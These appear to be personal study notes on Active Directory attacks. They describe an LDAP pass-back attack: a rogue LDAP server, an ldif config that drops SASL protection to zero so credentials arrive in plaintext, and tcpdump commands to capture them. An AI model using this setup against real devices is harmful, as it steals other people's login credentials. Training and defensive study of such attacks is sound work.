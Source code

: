 **LDAP Bind Credentials**

- LDAP Authentication follows the following steps:
![[Pasted image 20240519133410.png]]


**Pass-Back Attack**

- Here we basically change the IP of the LDAP server to a rogue LDAP server controlled by us
- Note that by default the LDAP will use the most secure method to send over the encrypted credentials and we don't want that since we want to read the plaintext credentials

- We create the following `ldif` file:
```
#olcSaslSecProps.ldif 
dn: cn=config 
replace: olcSaslSecProps 
olcSaslSecProps: noanonymous,minssf=0,passcred
```
**Note**: We have set the min protection to 0 which means no protection
- Now we apply the diff to the ldap config with the following command:
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

- To do a tcpdump of on an interface over a certain port:
```
sudo tcpdump -SX -i {interface-name} tcp port {port-number}
```


### PXE Boot

![[Pasted image 20240523230124.png]]


